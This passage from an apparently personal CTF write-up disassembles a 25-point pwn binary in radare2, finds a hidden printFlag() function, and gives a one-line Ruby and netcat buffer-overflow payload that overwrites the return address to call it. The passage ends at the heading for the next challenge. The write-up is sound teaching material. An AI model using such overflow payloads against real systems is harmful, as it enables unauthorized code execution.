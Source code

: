     [...]
    [0x08048c70]> pdf@sym.main
    ;-- main:
    / (fcn) sym.main 60
    '           ; UNKNOWN XREF from 0x08048488 (sym.main)
    '           ; DATA XREF from 0x08048487 (sym.main)
    '           0x080485c9      55             push ebp
    '           0x080485ca      89e5           mov ebp, esp
    '           0x080485cc      83e4f0         and esp, 0xfffffff0
    '           0x080485cf      83ec20         sub esp, 0x20
    '           0x080485d2      c70424ac8604.  mov dword [esp], str.This_program_is_hungry._You_should_feed_it. ; [0x80486ac:4]=0x73696854 LEA str.This_program_is_hungry._You_should_feed_it. ; "This program is hungry. You should feed it." @ 0x80486ac
    '           0x080485d9      e842feffff     call sym.imp.puts
    '           0x080485de      8d442414       lea eax, dword [esp + 0x14] ; 0x14
    '           0x080485e2      89442404       mov dword [esp + 4], eax
    '           0x080485e6      c70424d88604.  mov dword [esp], 0x80486d8  ; [0x80486d8:4]=0x44007325
    '           0x080485ed      e86efeffff     call sym.imp.__isoc99_scanf
    [...]

Let's look at the methods available in binary. If we list them there is *surprise* a printFlag() function. Looking at the assembly we can confirm it's what we have bin looking for. It basically calls open@0x08048582 on the local file
"flag.txt"@0x0804857b and later puts() the content of it.

    [0x08048c70]> afl
    [...]
    0x0804856d  92    1     sym.printFlag
    0x080485c9  60    1     sym.main
    [...]
    [0x08048c70]> pdf@sym.printFlag
    / (fcn) sym.printFlag 92
    '           ; var int local_ch @ ebp-0xc
    '           ; var int local_3eh @ ebp-0x3e
    '           0x0804856d      55             push ebp
    '           0x0804856e      89e5           mov ebp, esp
    '           0x08048570      83ec58         sub esp, 0x58
    '           0x08048573      c7442404a086.  mov dword [esp + 4], 0x80486a0 ; [0x80486a0:4]=0x6c660072
    '           0x0804857b      c70424a28604.  mov dword [esp], str.flag.txt ; [0x80486a2:4]=0x67616c66 LEA str.flag.txt ; "flag.txt" @ 0x80486a2
    '           0x08048582      e8c9feffff     call sym.imp.fopen
    [...]

So we have just to point the our IP to the function address. The exploit looks like this:

    ruby -e 'print("A"*24 + "\x6d\x85\x04\x08")' ' netcat $IP $PORT

Easy 25 points.

## PWN - WoO2

The 50 points challenge was a little bit harder, but not too much. Let's look at what the program does.
